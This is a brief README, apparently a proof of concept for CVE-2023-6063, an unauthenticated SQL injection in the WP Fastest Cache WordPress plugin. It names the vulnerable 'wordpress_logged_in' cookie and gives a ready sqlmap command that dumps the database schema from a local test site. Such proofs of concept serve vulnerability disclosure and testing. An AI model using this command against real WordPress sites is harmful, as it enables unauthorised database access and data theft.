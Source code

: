 # CVE-2023-6063 PoC

## Reference

- [Unauthenticated SQL Injection Vulnerability Addressed in WP Fastest Cache 1.2.2 | WPScan](https://wpscan.com/blog/unauthenticated-sql-injection-vulnerability-addressed-in-wp-fastest-cache-1-2-2/)

## Plugin setting

Enable "WP Fastest Cache".

![Image 1](/image_1.png)

## PoC

The "wordpress_logged_in" cookie parameter is vulnerable.

```
$ python sqlmap.py --dbms=mysql -u "http://127.0.0.1/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 --schema
```

![Image 2](/image_2.png)
